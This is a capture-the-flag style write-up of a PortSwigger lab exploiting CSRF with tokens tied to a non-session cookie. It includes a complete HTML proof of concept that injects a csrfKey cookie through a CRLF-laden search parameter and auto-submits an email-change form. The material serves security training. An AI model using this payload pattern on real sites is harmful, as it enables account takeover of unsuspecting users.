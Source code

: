 *This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You have two accounts on the application that you can use to help design your attack. The credentials are as follows:
`wiener:peter`
`carlos:montoya`*

Noticed that there was a `csrfKey` cookie along with a `csrf` token for both the login request:
![Screenshot 2024-05-23 at 11.16.28 AM](images/Screenshot%202024-05-23%20at%2011.16.28%20AM.png)
and the change email request:
![Screenshot 2024-05-23 at 11.18.56 AM](images/Screenshot%202024-05-23%20at%2011.18.56%20AM.png)
The cookie and token remained the same for each request. 
I to figure out a way to inject the `csrfKey` into the victim browser before feeding my token to the victim. I found out that I could set cookies when searching through the blogs:
![Screenshot 2024-05-23 at 2.33.01 PM](images/Screenshot%202024-05-23%20at%202.33.01%20PM.png)
I figured that I could break out of the header and inject my own cookie, I sent the request to *Repeater*, and modified the request to the following:
![Screenshot 2024-05-23 at 2.46.45 PM](images/Screenshot%202024-05-23%20at%202.46.45%20PM.png)
Injected the following code into the exploit server:
```html 
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a42002103cb16ef82ffd8f00056005c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="tester&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="SwRYPM8iZOZPnrvxwB89UZG6282Xu7Em" />
      <!-- <input type="submit" value="Submit request" /> -->
    </form>
	<img src="https://0a42002103cb16ef82ffd8f00056005c.web-security-academy.net/?search=test;+SameSite=None;%3b%0d%0aSet-Cookie%3a+csrfKey%3d87d6P8UhArwyErEyUn3MKqrIp79v6KTi;+SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```
Stored and delivered the exploit to solve the lab. 
